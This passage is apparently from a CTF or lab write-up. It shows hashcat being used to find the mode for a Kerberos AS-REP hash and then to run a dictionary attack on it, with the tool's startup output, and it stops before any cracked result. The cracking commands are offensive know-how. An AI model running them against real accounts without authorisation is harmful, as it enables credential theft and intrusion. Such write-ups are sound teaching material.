 ### Cracking hash
#### hashcat

Searching for the type of hash found.

```
❯ hashcat --example-hashes | grep "\$krb5asrep" -B 2
MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

#### Cracking

```
❯ hashcat -m 18200 -a 0 hash passwordlist.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-9700 CPU @ 3.00GHz, 3933/3997 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 99 MB

Dictionary cache hit:
* Filename..: passwordlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188

```